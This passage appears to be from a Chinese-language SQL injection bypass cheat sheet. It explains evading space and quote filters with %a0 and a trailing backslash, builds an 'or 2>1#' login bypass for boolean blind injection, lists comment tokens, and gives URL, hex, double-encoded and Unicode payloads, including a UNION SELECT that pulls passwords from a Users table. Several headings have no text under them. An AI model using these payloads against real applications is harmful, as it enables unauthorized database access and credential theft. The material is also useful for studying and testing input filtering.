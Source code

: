 %a0�

这个可算是一个不成汉字的中文字符了，那这应该就好理解了，因为%a0的特性，在进行正则匹配时，匹配到它时是识别为中文字符的，所以不会被过滤掉，但是在进入SQL语句后，Mysql是不认中文字符的，所以直接当作空格处理，就这样，我们便达成了Bypass的目的，成功绕过空格+注释的过滤

### 过滤单引号

当在登录时使用的是如下SQL语句：

```mysql
select user from user where user='$_POST[username]' and password='$_POST[password]';
```

在这里单引号被过滤了，但是反斜杠`\`并没有被过滤。则单引号可以被转义

输入的用户名以反斜杠`\`结尾

```mysql
username=admin\&password=123456#
将这个拼接进去，\就可以将第2个单引号转义掉
select * from users where username='admin\' and password='123456#';
这样第1个单引号就会找第3个单引号进行闭合，后台接收到的username实际上是admin\' and password=这个整体
接下来构造password为or 2>1#
select * from users where username='admin\' and password=' or 2>1#';
上面的语句会返回为真，通过这样的思路，我们就可以进行bool盲注
```

### 注释符

```mysql
//
--%20
/**/
#
--+
-- -
%00
;
;%00
;\x00
```

### 大小写绕过

### 双写绕过

### 编码绕过

利用urlencode，ascii(char)，hex，unicode等编码绕过

```mysql
or 1=1即%6f%72%20%31%3d%31，而Test也可以为CHAR(101)+CHAR(97)+CHAR(115)+CHAR(116)。

十六进制编码

SELECT(extractvalue(0x3C613E61646D696E3C2F613E,0x2f61))

双重编码绕过

?id=1%252f%252a*/UNION%252f%252a /SELECT%252f%252a*/1,2,password%252f%252a*/FROM%252f%252a*/Users--+

一些unicode编码举例：    
单引号：'
%u0027 %u02b9 %u02bc
%u02c8 %u2032
%uff07 %c0%27
%c0%a7 %e0%80%a7
```